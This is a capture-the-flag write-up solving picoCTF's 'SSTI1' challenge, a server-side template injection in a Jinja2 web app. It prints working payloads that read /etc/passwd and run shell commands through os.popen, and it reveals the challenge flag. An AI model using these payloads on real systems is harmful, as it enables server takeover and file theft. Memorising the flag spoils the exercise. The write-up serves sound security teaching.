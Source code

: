 # SSTI1

## Description
I made a cool website where you can announce whatever you want! Try it out!I heard templating is a cool and modular way to build web apps! Check out my website [here](http://rescued-float.picoctf.net:59563/)!
## Solve
1. First we connect to the challenge with the given link.

2. Let's inspect the source code to see if we can find something interesting.
```HTML
<!doctype html> <title>SSTI1</title>  
<h1> Home </h1>  
<p> I built a cool website that lets you announce whatever you want!* </p>  
<form action="/" method="POST"> What do you want to announce: <input name="content" id="announce"> <button type="submit"> Ok </button> </form> <p style="font-size:10px;position:fixed;bottom:10px;left:10px;"> *Announcements may only reach yourself </p>
```

3. If we type something that we want to announce, we can see that the site just displays what we enter, but bigger.
```HTML
<!doctype html>
<h1 style="font-size:100px;" align="center">something</h1>
```

4. If we search for what SSTI stands for, we will see that it means Server Side Template Injection, which according to PortSwigger "is when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side".

5. With this in mind, let's try to identify what kind of SSTI we are dealing with, let's try do identify it with the payloads from https://github.com/swisskyrepo/PayloadsAllTheThings

6. It seems like it is using Python + Jinja2. If we try this commands we get the correct results:
```python
{{4*4}}[[5*5]] #16[[5*5]]
{{7*'7'}} would result in 7777777 # 7777777 would result in 7777777
{{config.items()}} ## dict_items([('DEBUG', False), ('TESTING', False), ('PROPAGATE_EXCEPTIONS', None), ('SECRET_KEY', None), ('PERMANENT_SESSION_LIFETIME', datetime.timedelta(days=31)), ('USE_X_SENDFILE', False), ('SERVER_NAME', None), ('APPLICATION_ROOT', '/'), ('SESSION_COOKIE_NAME', 'session'), ('SESSION_COOKIE_DOMAIN', None), ('SESSION_COOKIE_PATH', None), ('SESSION_COOKIE_HTTPONLY', True), ('SESSION_COOKIE_SECURE', False), ('SESSION_COOKIE_SAMESITE', None), ('SESSION_REFRESH_EACH_REQUEST', True), ('MAX_CONTENT_LENGTH', None), ('SEND_FILE_MAX_AGE_DEFAULT', None), ('TRAP_BAD_REQUEST_ERRORS', None), ('TRAP_HTTP_EXCEPTIONS', False), ('EXPLAIN_TEMPLATE_LOADING', False), ('PREFERRED_URL_SCHEME', 'http'), ('TEMPLATES_AUTO_RELOAD', None), ('MAX_COOKIE_SIZE', 4093)])
```

7. So, let's keep searching for a payload that allow us to achieve remote code execution, let's try this one to read files:
```python
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
```

```response
# root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```
We succeeded.

8. If we execute the next payload, we can exploit the SSTI calling os.popen().read():
```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
#uid=0(root) gid=0(root) groups=0(root)
```

9. And now, we can simply modify it to execute the command we want:
```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls').read() }}
#__pycache__
#app.py
#flag
#requirements.txt

{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag').read() }}
# picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_99fe4411}
```

10. And that's how we got the flag:
```flag
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_99fe4411}
```

## Additional Notes 

## References

https://portswigger.net/web-security/server-side-template-injection
https://github.com/swisskyrepo/PayloadsAllTheThings